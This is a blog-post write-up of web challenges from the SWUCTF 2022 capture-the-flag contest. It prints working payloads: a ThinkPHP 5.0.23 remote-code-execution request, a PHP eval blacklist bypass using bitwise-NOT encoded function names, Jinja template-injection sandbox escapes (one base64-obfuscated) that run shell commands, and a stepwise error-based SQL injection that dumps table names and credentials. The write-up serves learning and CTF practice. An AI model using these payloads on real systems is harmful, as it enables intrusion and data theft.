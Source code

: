 ```yaml
---
title: SWUCTF2022 Web Writeups | CTF
date: 2022-05-24 21:56:32
tags:
  - SWUCTF
  - Writeup
categories:
  - CTF
excerpt: >-
  SWU解题记录
author: btwoa
abbrlink: adc75ba0
---
```


> **本文部分信息可能已发生改变，请自行甄别**

# THINKPHP?

?s=captcha

![](https://ovo.btwoa.com/img/webp/202205242206767.webp)

V5.0.23

```
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=env
```

![](https://ovo.btwoa.com/img/webp/202205242209220.webp)

# PHP? Eval? 

```
<?php
highlight_file(__FILE__);
error_reporting(0);
$blacklist = ["system", "ini_set", "exec", "scandir", "shell_exec", "proc_open", "error_log", "ini_alter", "ini_set", "pfsockopen", "readfile", "echo", "file_get_contents", "readlink", "symlink", "popen", "fopen", "file", "fpassthru"];
$blacklist = array_merge($blacklist, get_defined_functions()['internal']);
foreach($blacklist as $i){
    if(stristr($_GET[cmd], $i)!==false){
        die('hack');
    }
}
eval($_GET[cmd]);
?>
```

## URL编码取反绕过

```
php -r "var_dump(urlencode(~'system'));" => string(18) "%8C%86%8C%8B%9A%92"
php -r "var_dump(urlencode(~'cat /flag'));" => string(27) "%9C%9E%8B%DF%D0%99%93%9E%98"
```

```
?cmd=(~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DF%D0%99%93%9E%98);
```

![](https://ovo.btwoa.com/img/webp/202205242250287.webp)

# Py?py

[SSTI/沙盒逃逸详细总结-CoCo1er](https://www.anquanke.com/post/id/188172#h3-15)

```
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['eval']("__import__('os').popen('cat flag.txt').read()")}}

{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['ZXZhbA=='.decode('base64')]("X19pbXBvcnRfXygnb3MnKS5wb3BlbignY2F0IGZsYWcudHh0JykucmVhZCgp".decode('base64'))}}
```

![](https://ovo.btwoa.com/img/webp/202205250017411.webp)

# SQL? no sqlmap

![](https://ovo.btwoa.com/img/webp/202205242255472.webp)

报错注入

```
'or(updatexml(1,concat(0x7e,version(),0x7e),1))# => %27or%28updatexml%281%2Cconcat%280x7e%2Cversion%28%29%2C0x7e%29%2C1%29%29%23
```

\~10.3.18-MariaDB\~

![](https://ovo.btwoa.com/img/webp/202205242301210.webp)

```
'or(updatexml(1,concat(0x7e,database(),0x7e),1))# => %27or%28updatexml%281%2Cconcat%280x7e%2Cdatabase%28%29%2C0x7e%29%2C1%29%29%23
```

\~vaalacat\~

![](https://ovo.btwoa.com/img/webp/202205242300745.webp)

```
'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),0x7e),1))# => %27or%28updatexml%281%2Cconcat%280x7e%2C%28select%28group_concat%28table_name%29%29from%28information_schema.tables%29where%28table_schema%29like%28database%28%29%29%29%2C0x7e%29%2C1%29%29%23
```

![](https://ovo.btwoa.com/img/webp/202205242304240.webp)

过滤了 select 

双写绕过

```
'or(updatexml(1,concat(0x7e,(selselectect(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),0x7e),1))# => %27or%28updatexml%281%2Cconcat%280x7e%2C%28selselectect%28group_concat%28table_name%29%29from%28information_schema.tables%29where%28table_schema%29like%28database%28%29%29%29%2C0x7e%29%2C1%29%29%23
```

\~vaala\~

![](https://ovo.btwoa.com/img/webp/202205242307692.webp)

```
'or(updatexml(1,concat(0x7e,(selselectect(group_concat(column_name))from(information_schema.columns)where(table_name)like('vaala')),0x7e),1))# => %27or%28updatexml%281%2Cconcat%280x7e%2C%28selselectect%28group_concat%28column_name%29%29from%28information_schema.columns%29where%28table_name%29like%28%27vaala%27%29%29%2C0x7e%29%2C1%29%29%23
```

\~id,username,password\~

![](https://ovo.btwoa.com/img/webp/202205242310530.webp)

```
'or(updatexml(1,concat(0x7e,(selselectect(group_concat(username,'~',password))from(vaala)),0x7e),1))# => %27or%28updatexml%281%2Cconcat%280x7e%2C%28selselectect%28group_concat%28username%2C%27~%27%2Cpassword%29%29from%28vaala%29%29%2C0x7e%29%2C1%29%29%23
```

'\~vaala\~flag{ccb506e8-afa0-46b8-b'

![](https://ovo.btwoa.com/img/webp/202205242312864.webp)

```
'or(updatexml(1,concat(0x7e,(selselectect(group_concat((right(password,30))))from(vaala)),0x7e),1))# => %27or%28updatexml%281%2Cconcat%280x7e%2C%28selselectect%28group_concat%28%28right%28password%2C30%29%29%29%29from%28vaala%29%29%2C0x7e%29%2C1%29%29%23
```

![](https://ovo.btwoa.com/img/webp/202205242316572.webp)

'~8-afa0-46b8-b177-e3a2fc5592b6}~'

flag{ccb506e8-afa0-46b8-b177-e3a2fc5592b6}

